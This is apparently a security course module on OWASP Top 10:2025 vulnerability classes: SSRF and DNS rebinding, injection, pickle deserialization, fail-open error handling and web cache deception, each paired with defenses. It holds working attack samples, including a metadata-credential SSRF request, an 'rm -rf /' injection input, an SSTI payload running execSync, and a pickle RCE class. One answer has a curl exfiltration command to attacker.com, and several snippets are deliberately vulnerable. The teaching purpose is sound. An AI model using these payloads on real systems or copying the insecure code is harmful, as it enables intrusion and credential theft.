



# Module 11 — Web & API Vulnerability Classes: OWASP Top 10:2025 Deep Dive

While threat modeling and cryptographic primitives establish foundational defenses, production systems are targeted by concrete software vulnerability classes operating across the application and API layer. The **OWASP Top 10:2025** standardizes the ten most critical security risks facing web applications, reflecting real-world compromise telemetry from global incident investigations. This module delivers an exhaustive technical breakdown of these vulnerability families: Server-Side Request Forgery (SSRF) and DNS rebinding (A01), Injection families (A05), Insecure Deserialization (A08), Fail-Open Exceptional Conditions (A10), and Web Cache Deception / Cache Poisoning attacks.

---

## 1. OWASP Top 10:2025 Taxonomy & Threat Landscape



---

## 2. A01:2025 — Broken Access Control, SSRF & DNS Rebinding

In the 2025 update, **Server-Side Request Forgery (SSRF)** was merged directly into Category A01 (Broken Access Control) because SSRF fundamentally functions as an access control bypass: an unprivileged external client coerces an internal server to act as a confused proxy to reach protected backends.

### Cloud Instance Metadata Exfiltration
The canonical cloud SSRF target is the Link-Local Instance Metadata Service (IMDS) located at `http://169.254.169.254`:
1. A web application accepts a user-provided image URL to generate an avatar thumbnail:
   `POST /api/user/avatar { "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role" }`
2. If the backend fetches the URL without validation, the application server requests the internal metadata service and returns the temporary AWS IAM role credentials (Access Key, Secret Key, Session Token) directly in the thumbnail response, granting the attacker instant privilege escalation across the cloud environment!



### The Flawed Defense: Validate-Then-Resolve & DNS Rebinding
Developers frequently attempt to defend against SSRF by parsing the URL and checking the hostname against a blocklist:
```typescript
// INSECURE: Vulnerable to Time-Of-Check to Time-Of-Use (TOCTOU) DNS Rebinding!
const ip = await dns.resolve(parsedUrl.hostname);
if (isPrivateIP(ip)) {
  throw new Error("Private IPs forbidden!");
}
// VULNERABILITY: Second DNS resolution occurs during fetch!
const response = await fetch(parsedUrl.href);
```

**The DNS Rebinding Exploit**:
An attacker configures an authoritative DNS nameserver for `rebind.attacker.com` with a TTL of **0 seconds**:
- On Query 1 (Validation phase): `rebind.attacker.com` resolves to public IP `198.51.100.1` (which passes `isPrivateIP`).
- On Query 2 (Fetch phase milliseconds later): The client cache misses due to TTL=0. The nameserver resolves `rebind.attacker.com` to private IP `169.254.169.254` (or `127.0.0.1`), completely bypassing the validation check!

### The True Defense: Socket Pinning & Egress Filtering
1. **Enforce IMDSv2**: AWS IMDSv2 requires an HTTP `PUT` request with a mandatory `X-aws-ec2-metadata-token` header to fetch credentials. Because simple SSRF attacks cannot force arbitrary HTTP methods or headers, IMDSv2 neutralizes SSRF exfiltration.
2. **Socket-Level IP Validation (Zero TOCTOU)**: Custom HTTP agent resolving DNS once, validating the IP, and connecting directly to that validated IP without a second resolution:
   ```typescript
   import http from "node:http";
   import dns from "node:dns/promises";

   async function safeFetch(url: URL) {
     const { address } = await dns.lookup(url.hostname);
     if (isPrivateOrLoopback(address)) {
       throw new Error("Access to internal/private IPs forbidden");
     }
     // Force TCP connection directly to validated IP, overriding DNS
     return fetch(url, {
       // @ts-ignore
       dispatcher: new undici.Agent({ connect: { host: address } })
     });
   }
   ```

---

## 3. A05:2025 — The Injection Families

Injection occurs when untrusted user data is concatenated into a system interpreter without syntactic separation between control instructions and data.

### 1. SQL Injection (SQLi)
Discussed formally in the PostgreSQL track; fundamentally prevented via **Parameterized Queries** and Prepared Statements where the query planner compiles the abstract syntax tree before parameters are evaluated:
```typescript
// INSECURE: String concatenation
db.query(`SELECT * FROM users WHERE email = '${req.body.email}'`);

// SECURE: Strict parameterization (data cannot alter SQL grammar)
db.query("SELECT * FROM users WHERE email = $1", [req.body.email]);
```

### 2. OS Command Injection
Occurs when an application spawns an operating system shell (`child_process.exec()`, `system()`, `popen()`) with user-supplied arguments:
```typescript
// INSECURE: Spawns shell; input '; rm -rf /' executes arbitrary commands!
exec(`ping -c 1 ${req.query.host}`);

// SECURE: Bypasses shell execution; passes arguments directly to POSIX execve
execFile("/bin/ping", ["-c", "1", req.query.host]);
```

### 3. Server-Side Template Injection (SSTI)
Occurs in server-rendered applications (Jinja2, Nunjucks, Pug) when user input is concatenated directly into template source code rather than passed as context data:
```typescript
// INSECURE: Evaluates user input as template code!
const template = nunjucks.compile(`Hello ${req.query.name}!`);
// Input: {{ range.constructor("return process.mainModule.require('child_process').execSync('id')")() }}
// Executes arbitrary Remote Code Execution (RCE) on the server!
```

---

## 4. A08:2025 — Software & Data Integrity: Insecure Deserialization

Serialization transforms complex in-memory data structures into a byte stream for storage or network transport; deserialization reconstructs the original object.

**Insecure Deserialization** occurs when an application deserializes untrusted binary or structured data without verifying that the stream does not instantiate arbitrary executable object graphs.

### The Gadget Chain Exploitation Model
In object-oriented runtimes (Java, Python, PHP, Ruby):
- In Python, `pickle.loads()` is an executable virtual machine. A malicious pickle payload can execute arbitrary shell commands upon unpickling:
  ```python
  # ATTACK PAYLOAD: Arbitrary RCE upon deserialization!
  class Exploit(object):
      def __reduce__(self):
          return (os.system, ('id',))
  ```
- In Java/Node.js, attackers assemble **Gadget Chains**: chaining together legitimate class methods (e.g. constructors, `finalize()`, getters) present in standard libraries that, when invoked in sequence during object hydration, achieve Remote Code Execution.

### Architectural Defense
- **Never deserialize untrusted input with binary object serializers** (`pickle`, `node-serialize`, Java `ObjectInputStream`).
- Use stateless, schema-validated pure data formats: **JSON** or **Protocol Buffers**. Standard `JSON.parse()` instantiates plain object literals and arrays with zero method execution or class prototyping.

---

## 5. A10:2025 — Mishandling of Exceptional Conditions (Fail-Open)

Category A10:2025 targets systems that crash or fail open when encountering edge cases, malformed network packets, or unhandled exceptions.

### The Fail-Open Antipattern
```typescript
// VULNERABLE: Fails OPEN on exception!
async function verifyAccess(req, res, next) {
  try {
    const isAllowed = await externalPolicyEngine.evaluate(req.user);
    if (!isAllowed) {
      return res.status(403).send("Forbidden");
    }
    next();
  } catch (error) {
    logger.error("Policy engine timeout: ", error);
    // CRITICAL SECURITY BUG: On database timeout or network blip,
    // execution falls through to next(), granting access to the protected route!
    next();
  }
}
```

### The Fail-Closed Standard
```typescript
// SECURE: Fails CLOSED on exception!
async function verifyAccessSecure(req, res, next) {
  try {
    const isAllowed = await externalPolicyEngine.evaluate(req.user);
    if (!isAllowed) {
      return res.status(403).json({ error: "Access Denied" });
    }
    next();
  } catch (error) {
    logger.error("Authorization check failed: ", error);
    // SECURE: Fail-closed; return HTTP 500 error, never pass to next()
    return res.status(500).json({ error: "Internal Authorization Error" });
  }
}
```

---

## 6. Web Cache Deception & Cache Poisoning

Web caches (Cloudflare, Fastly, NGINX) sit between users and application servers to accelerate delivery by caching static files based on the request URL.



### Web Cache Deception Attack Mechanics
1. A backend framework (e.g. Django, Spring, Rails) implements URL path parameter handling or route normalization that strips arbitrary path suffixes:
   `https://example.com/account/settings/anything.css` routes to `/account/settings`.
2. The user is logged in via cookies. The attacker lures the victim into visiting `https://example.com/account/settings/avatar.css`.
3. The CDN cache observes an un-cached URL ending with `.css`. Under default caching rules, `.css` files are treated as public static assets and configured to be cached.
4. The CDN forwards the request to the origin. The origin returns the user's private JSON account profile.
5. The CDN caches Alice's private financial data under the public key `https://example.com/account/settings/avatar.css`.
6. The attacker visits `https://example.com/account/settings/avatar.css` without any cookies and downloads Alice's private cached profile directly from the CDN edge!

### Defenses Against Cache Deception
1. **Explicit Caching Headers**: Every authenticated or dynamic API endpoint must return:
   `Cache-Control: private, no-store, no-cache, max-age=0`
2. **Disallow Path Suffix Normalization**: Reject requests containing static extensions (`.css`, `.js`, `.png`) on dynamic API routes (return HTTP 404).

---

## 7. Then vs Now: Evolution of Application Vulnerabilities

| Vulnerability Class | Historical Paradigm (Then) | Modern Production Architecture (Now) |
| :--- | :--- | :--- |
| **SSRF Defense** | Naive URL string regex matching and DNS resolve checks. | **IMDSv2 Tokens** + **Socket-Pinned IP Validation** (Zero TOCTOU). |
| **Object Authorization**| Basic user authentication checking (`if (req.user)`). | **Object Ownership Mediation (BOLA Defense)** & Database RLS. |
| **Serialization** | Binary object serializers (`pickle`, Java ObjectInputStream). | **Schema-Validated Pure JSON** or **Protocol Buffers**. |
| **Error Handling** | Swallowing errors in `catch` blocks and continuing execution. | **Strict Fail-Closed Defaults** terminating unauthorized flows. |
| **Edge Caching** | Default CDN extension caching rules (`*.css`, `*.js`). | **Mandatory `Cache-Control: no-store`** on all authenticated routes. |

---

## 8. Interview Drill: Vulnerability Engineering & Defense

<details>
<summary>1. Explain how a Time-Of-Check to Time-Of-Use (TOCTOU) DNS Rebinding attack bypasses an application's private IP check during URL validation.</summary>

In an insecure implementation, the developer performs two sequential operations:
1. **Check**: The code calls `dns.resolve("attacker.com")`. The attacker's custom authoritative DNS nameserver returns public IP `198.51.100.1` with a TTL of 0 seconds. The application verifies that `198.51.100.1` is not a private IP and permits the request to proceed.
2. **Use**: The application calls `fetch("http://attacker.com/data")`. Because the DNS TTL was 0 seconds, the local OS DNS cache has expired. The HTTP library resolves `attacker.com` a second time. 
This time, the attacker's nameserver returns `169.254.169.254` (the AWS metadata service) or `127.0.0.1`. The application connects directly to the private metadata service, completely bypassing the validation check.
*Mitigation*: The application must resolve the IP address once, validate it, and instruct the HTTP client to open the socket directly to the validated IP address without a second DNS resolution.
</details>

<details>
<summary>2. Why does AWS IMDSv2 mitigate SSRF attacks even if an application has a full SSRF vulnerability?</summary>

Under legacy IMDSv1, an attacker could fetch sensitive cloud credentials using a simple HTTP `GET` request (`http://169.254.169.254/latest/meta-data/iam/security-credentials/`). Most SSRF vulnerabilities (e.g. image fetchers, webhook endpoints) only permit simple GET requests.
IMDSv2 introduces a mandatory session-oriented protocol:
1. The client must first execute an HTTP `PUT` request to `http://169.254.169.254/latest/api/token` with a mandatory custom header: `X-aws-ec2-metadata-token-ttl-seconds: 21600`.
2. The returned token must be passed in an `X-aws-ec2-metadata-token` header on all subsequent requests.
Because standard SSRF vulnerabilities cannot force the backend server to issue an HTTP `PUT` request with custom headers, attackers cannot obtain an IMDSv2 session token, completely neutralizing credential exfiltration.
</details>

<details>
<summary>3. Describe the mechanics of a Web Cache Deception attack and explain why it differs from Web Cache Poisoning.</summary>

- **Web Cache Poisoning**: The attacker tricks the CDN into caching a *malicious payload* that will be served to legitimate users (e.g. injecting malicious JavaScript into a shared cache slot via an unkeyed header).
- **Web Cache Deception**: The attacker tricks the CDN into caching a *legitimate user's private data* that the attacker can subsequently read.
*Deception Mechanics*: The attacker shares a link `https://bank.com/profile/account.css`. The authenticated victim clicks the link. The origin ignores the `.css` suffix and returns the victim's private profile. The CDN sees `.css`, assumes it is a public static asset, and caches the victim's private profile under that URL. The attacker then visits the exact same URL and retrieves the victim's sensitive data directly from the cache.
</details>

<details>
<summary>4. Why is Python's `pickle.loads()` fundamentally insecure when processing untrusted user input, even if the data is encrypted or signed?</summary>

Python's `pickle` format is not a static data serialization format; it is a stack-based virtual machine program. 
The pickle bytecode can define custom reducer methods (`__reduce__`) that instruct the interpreter to import arbitrary Python modules and execute arbitrary functions during object unpickling. 
An attacker crafting a malicious pickle file can instruct Python to execute `os.system('curl http://attacker.com/$(whoami)')` during deserialization. Signing the data with HMAC prevents tampering, but if the attacker can generate a valid signature (or if keys leak), `pickle` provides immediate, deterministic Remote Code Execution (RCE).
</details>

<details>
<summary>5. How does Category A10:2025 (Mishandling of Exceptional Conditions) manifest in asynchronous microservice code?</summary>

In asynchronous runtimes like Node.js, A10:2025 frequently manifests in two failure modes:
1. **Unhandled Promise Rejections**: An unexpected network drop or malformed packet causes an unhandled rejection, crashing the Node.js process and inducing a Denial of Service.
2. **Fail-Open Error Catchers**: An authorization or rate-limiting middleware wraps an external service call in a `try...catch` block. When a timeout or connection reset occurs, the catch block logs the error and calls `next()`, allowing the request to proceed to the protected route without authorization. Exceptional conditions must always fail closed.
</details>
